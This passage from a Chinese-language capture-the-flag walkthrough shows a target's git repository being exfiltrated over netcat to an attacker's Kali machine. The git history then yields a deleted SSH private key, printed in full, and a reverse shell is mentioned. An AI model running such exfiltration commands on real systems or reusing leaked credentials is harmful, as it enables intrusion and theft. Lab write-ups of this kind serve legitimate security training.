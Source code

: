 为了深入分析，我们将整个 `node.git` 仓库打包并传回Kali攻击机。

1. 在靶机上，将 `node.git` 目录打包。

   ```shell
   busybox tar -cf /tmp/1.tar node.git
   ```

2. 在Kali上监听1234端口，并将接收到的数据保存为 `1.tar`。

   ```shell
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
   └─$ nc -lvnp 1234 > 1.tar
   ```

3. 在靶机上，使用 `nc` 将打包好的文件发送到Kali。

   ```shell
   cat 1.tar|busybox nc 192.168.205.128 1234
   ```

文件传输完成后，在Kali上解压并分析git仓库的历史记录。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ tar -xf 1.tar
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ cd node.git 
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/node.git]
└─$ git log -p
```

`git log -p` 的输出显示了一个非常关键的提交历史：开发者曾错误地将一个SSH私钥 `id_ed25519` 提交到仓库，随后又在下一次提交中将其删除。

```diff
commit 1994a70bbd080c633ac85a339fd85a8635c63893 (HEAD -> main)
Author: azwhikaru <37921907+azwhikaru@users.noreply.github.com>
Date:   Mon Apr 21 14:36:12 2025 +0800

    del: oops!

diff --git a/id_ed25519 b/id_ed25519
deleted file mode 100644
index a2626a4..0000000
--- a/id_ed25519
+++ /dev/null
@@ -1,7 +0,0 @@
------BEGIN OPENSSH PRIVATE KEY-----
-b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
-QyNTUxOQAAACCMB5xEc6A2I69whyZDcTSPGVsz2jivuziHAEXaAlJLrgAAAJgA8k3lAPJN
-5QAAAAtzc2gtZWQyNTUxOQAAACCMB5xEc6A2I69whyZDcTSPGVsz2jivuziHAEXaAlJLrg
-AAAEBX7jUWSgQUQgA8z8yL85Eg1WiSgijSu3C4x8TVF/G3uIwHnERzoDYjr3CHJkNxNI8Z
-WzPaOK+7OIcARdoCUkuuAAAAEGhhbmFAZGV2b29wcy5obXYBAgMEBQ==
------END OPENSSH PRIVATE KEY-----
```

从diff信息中提取私钥内容并还原。在反弹Shell中，通过`netstat -lntup`发现SSH服务仅监听在`127.0.0.1:22`，无法从外部直接访问。
